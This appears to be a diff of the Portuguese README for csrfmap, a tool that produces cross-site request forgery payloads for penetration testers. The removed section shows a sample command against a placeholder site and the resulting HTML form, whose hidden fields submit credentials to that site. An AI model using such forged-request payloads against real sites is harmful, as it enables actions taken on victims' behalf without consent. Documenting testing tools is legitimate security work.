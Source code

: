 ```diff
-
-csrfmap requer **python3** e para baixá-lo só usar:
-
-```sh
-pip3 install csrfmap
-```
-
-# Executando csrfmap
-
-```console
-csrfmap -a "http://exemplo.com" -m post -p form1 -n username password token -v victor password 132423542
-
- _____ _____ _____ _____ _____ _____ _____ 
-|     |   __| __  |   __|     |  _  |  _  |
-|   --|__   |    -|   __| | | |     |   __|
-|_____|_____|__|__|__|  |_|_|_|__|__|__|   
-                                                       
-                        v0.0.1 - @joaoviictorti   
-
-csrf.html:
-<!DOCTYPE html>
-<html lang="pt-br">
-<body>
-	<form action="http://exemplo.com" method="post">
-	<input name="username" value="victor" type="hidden"/>
-	<input name="password" value="password" type="hidden"/>
-	<input name="token" value="132423542" type="hidden"/>
-	<input type="submit">Enviar</input>
-	</form>
-</body>
-</html>
-
-```
-
-<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
+<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>
+
+[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=csrfmap)](https://git.io/typing-svg)
+
+
+
+<h4 align="center"> Tool to generate payloads focused on CSRF </h4>
+
+
+<p align="center">
+  <a href="#características">Features</a> •
+  <a href="#instalação">Install</a> •
+  <a href="#forma-de-utilização">How to use</a> •
+  <a href="#executando-revshell">Usage</a>
+</p>
+
+---
+
+
+O csrfmap é uma ferramenta que gera payloads de Cross-site request forgery. Possui uma funcionalidade que gera diversas possibilidades de exploração.
+
+Projetei o `csrfmap`  e mantive um modelo consistentemente passivo para torná-lo útil para testadores de penetração.
```